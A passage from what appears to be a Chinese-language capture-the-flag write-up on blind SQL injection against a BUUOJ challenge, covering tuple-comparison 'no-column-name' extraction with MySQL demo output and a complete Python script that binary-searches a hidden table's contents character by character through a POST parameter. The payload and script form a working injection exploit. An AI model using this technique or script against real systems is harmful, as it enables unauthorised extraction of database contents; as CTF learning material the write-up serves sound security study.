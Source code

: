 ```
    print(flag)
    time.sleep(2)
    
爆出表名为f1ag_1s_h3r3_hhhhh
```

盲猜列名为flag ，直接得到flag



2.无列名注入

在这里用到的是逐字符检索数据法

```
mysql> select (select 1,'c') > (select * from users limit 0,1);
+------------------------------------------------------------+
| (select 1,'c') > (select * from users limit 0,1)           |
+------------------------------------------------------------+
|                              0                             |
+------------------------------------------------------------+
mysql> select (select 1,'d') > (select * from users limit 0,1);
+------------------------------------------------------------+
| (select 1,'d') > (select * from users limit 0,1)           |
+------------------------------------------------------------+
|                              1                             |
+------------------------------------------------------------+
//说明第二个字段的第一位是c,以此类推
```



paylaod:

```python
import requests
import time
import string
url="http://334f9701-ac6e-4158-b91b-450d336d1ca1.node3.buuoj.cn/"
flag=""
for j in range(1,50):
    print(j,":")
    low = 32
    high = 128
    mid=(low+high)//2
    while low <=high:
        print(mid)
        flag1=flag+chr(mid)
        payload="0^((1,'{0}')>(select * from f1ag_1s_h3r3_hhhhh))".format(flag1)
        data={
                "id":payload
                }
        t = requests.post(url,data=data)
        t.encoding="Windows-1252"
        #print(t.text)
        if "Nu1L" in t.text:
            high=mid-1
            mid=(low+high)//2
        else :
            low = mid+1
            mid=(low+high)//2       
    print(flag,chr(high))
    flag+=chr(high)
    time.sleep(2)

```
